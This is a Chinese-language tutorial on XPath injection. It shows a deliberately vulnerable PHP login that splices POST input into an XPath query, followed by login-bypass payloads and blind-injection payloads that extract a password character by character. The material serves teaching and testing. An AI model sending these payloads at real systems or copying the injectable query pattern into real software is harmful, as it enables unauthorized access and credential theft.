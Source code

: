 **1、什么是xpath注入**

XPath是一种查询语言，它描述了如何在XML文档中查找特定元素（包括属性、处理指令等）。既然是一种查询语言，XPath在一些方面与SQL相似，不过，XPath的不同之处在于它可以用来引用XML文档的几乎任何部分，而不受访问控制限制。在SQL中，一个“用户”（在XPath/XML上下文中未定义的术语）的权限被限制在一个特定的数据库，表，列或者行。使用XPath注入攻击，攻击者可以修改XPath查询语句来执行所选择的操作

XPath盲注攻击可以从一个使用不安全方式嵌入用户信息的应用中提取数据。在输入未被过滤的情况下，攻击者可以提交并执行有效的XPath代码。这种类型的攻击适用于以下情况：攻击者不清楚XML文档的架构，或者错误消息被抑制，一次只能通过布尔化查询来获取部分信息，就像SQL盲注一样。

**2、案例**

xpath_user.xml 文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<users>
<user id="1" username="admin" password="admin"></user>
<user id="2" username="root" password="admin"></user>
<user id="3" username="system" password="system"></user>
</users>
```

漏洞测试文件

```
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
	</head>
	<body>
			<form method="POST">
				用户名：<input type="text" name="username"><br>
			 	密码：<input type="password" name="password"><br>
			 	<input type="submit" value="登录" name="submit">
			</form>
	</body>
</html>
```

```php+HTML
<?php
if(file_exists('xpath_user.xml')){
	$xml=simplexml_load_file('xpath_user.xml');
	if($_POST['submit']){
		$username=$_POST['username'];
		$password=$_POST['password'];
		$sql="//user[@username='{$username}' and @password='{$password}']";
		$resulit = $xml->xpath($sql);
		if(count($resulit)==0){
			echo '登录失败';
		}else{
			echo "登录成功";
		}
	}	
	}
?>
```

```php+HTML
$sql="//user[@username='{$username}' and @password='{$password}']";
select * from users where username=’username’ and password=’password’
```

**4、注入方法**

万能密码登录 

```
admin' or '1'='1
username=admin' or '1'='1 &password=xxxxxxxxxxx&submit=submit
```

![img](../acess/wps3.jpg) 

**5、盲注入**

string-length()获取字符长度

substring 截取字符

```
username=admin'and string-length(@password)=5 or '1'='1&password=0&submit=submit
```

返回正确是就等于登录成功

```
username=admin'and substring(@password,1,1)='a' or '1'='1&password=0&submit=submit
```

![img](../acess/wps4.jpg) 

先获取第一个字符 再获取第二个。admin